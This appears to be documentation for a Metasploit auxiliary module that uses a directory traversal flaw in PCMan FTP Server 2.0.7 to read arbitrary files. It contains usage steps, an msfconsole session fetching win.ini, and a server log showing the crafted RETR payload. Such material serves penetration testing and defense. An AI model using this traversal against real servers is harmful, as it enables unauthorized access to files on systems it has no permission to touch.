 ## Vulnerable Application

This module exploits a directory traversal vulnerability found in PCMan FTP Server 2.0.7. This vulnerability allows an attacker to download arbitrary files from the server by crafting a RETR command that includes file system traversal strings such as '..//'

Linked to software download [Exploit-DB](https://www.exploit-db.com/apps/9fceb6fefd0f3ca1a8c36e97b6cc925d-PCMan.7z)

## Verification Steps

  1. Start msfconsole
  2. Do: `use modules/auxiliary/scanner/ftp/pcman_ftp_traversal`
  3. Do: `show options`
      ...show and set options...
  4. Do: `run`

## Scenarios

A run on Windows 7 (x64) and PCMan FTP Server 2.0.7.

  ```
  msf > use modules/auxiliary/scanner/ftp/pcman_ftp_traversal
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > show options
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set RHOST 1.1.1.1
    rhost => 1.1.1.1
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > set PATH WINDOWS\\win.ini
    PATH => WINDOWS\win.ini
  msf auxiliary(scanner/ftp/pcman_ftp_traversal) > run    
    [+] 192.168.2.252:21      - Stored WINDOWS\win.ini to /root/.msf4/loot/20191120201523_default_1.1.1.1_pcman.ftp.data_069450.ini
    [*] 192.168.2.252:21      - Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
  ```

## Client Software Log

  ```
  2019/11/20 [12:46] (00588) 1.1.1.2> User connecting from 1.1.1.2

  2019/11/20 [12:46] (00588) 1.1.1.2> USER anonymous
  2019/11/20 [12:46] (00588) Anonymous> 331 User name okay, need password.

  2019/11/20 [12:46] (00588) Anonymous> PASS *****
  2019/11/20 [12:46] (00588) Anonymous> 230 User logged in

  2019/11/20 [12:46] (00588) Anonymous> PASV
  2019/11/20 [12:46] (00588) Anonymous> 227 Entering Passive Mode (1.1.1.1,8,1)

  2019/11/20 [12:46] (00588) Anonymous> RETR ..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//..//WINDOWS\win.ini
  2019/11/20 [12:46] (00588) Anonymous> 150 File status okay; Open data connection.

  2019/11/20 [12:46] (00588) Anonymous> 226 Data Sent okay.

  2019/11/20 [12:46] (00588) Anonymous> User Disconnected.
  ```
